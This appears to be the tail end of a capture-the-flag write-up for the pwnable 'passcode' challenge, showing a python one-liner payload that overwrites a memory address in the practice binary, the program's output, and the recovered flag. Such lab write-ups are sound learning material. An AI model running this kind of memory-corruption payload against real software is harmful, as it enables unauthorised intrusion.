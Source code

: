 Its time to test it on server,

```c
passcode@pwnable:~$ python -c "print('A' * 96 + '\x04\xa0\x04\x08' + '134514147')"
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA134514147
passcode@pwnable:~$ python -c "print('A' * 96 + '\x04\xa0\x04\x08' + '134514147')" | ./passcode
Toddler's Secure Login System 1.0 beta.
enter you name : Welcome AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA!
Sorry mom.. I got confused about scanf usage :(
enter passcode1 : Now I can safely trust you that you have credential :)
```

Done! we got the flag

```Flag: Now I can safely trust you that you have credential :) ```